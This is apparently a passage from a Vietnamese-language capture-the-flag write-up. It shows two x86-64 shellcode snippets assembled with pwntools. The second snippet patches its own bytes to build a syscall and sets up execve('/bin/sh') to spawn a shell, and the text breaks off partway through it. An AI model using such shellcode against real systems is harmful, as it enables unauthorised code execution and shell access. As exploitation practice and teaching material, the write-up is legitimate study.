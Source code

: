 ```cs
sc = asm('''
    xor rax, 0x40-1
    inc rax
    cdq
    shl rax, 7
    shl rax, 1
    cdq
    xor rax, 9
    add rax, 7

    shl rax, 7
    shl rax, 1

    cdq
    xor rax, 0x7f
    add rax, 0x75
    xor rdx, 0x71
    nop
    call rax
         ''')
```

- ngoài ra pháp sư khác chế 1 shellcode có thể dùng được syscall : 

```cs
sc2 = asm('''
        push rdx 
        pop rcx
        push rdx
        pop rdi
        nop
        push rcx
        pop rax
        push rcx
        push 0x1
        nop
        pop rbx
        add BYTE PTR[rcx+0x32], bl
        push rcx
        inc cl
        add BYTE PTR[rcx+0x32], bl
        pop rcx
        add BYTE PTR[rcx+0x2c], bl

        // rdi = &"/bin/sh"
        push rcx
        add al, 0x2d
        push rax
        pop rdi

        // rdx = 0
        xor rdx, rdx
        push rcx

        // rax = 59
        xor rax, rax
        push rcx
        add al, 59

        // rsi = 0
        xor rsi, rsi

// syscall: 0f 05
.byte 0x0f
```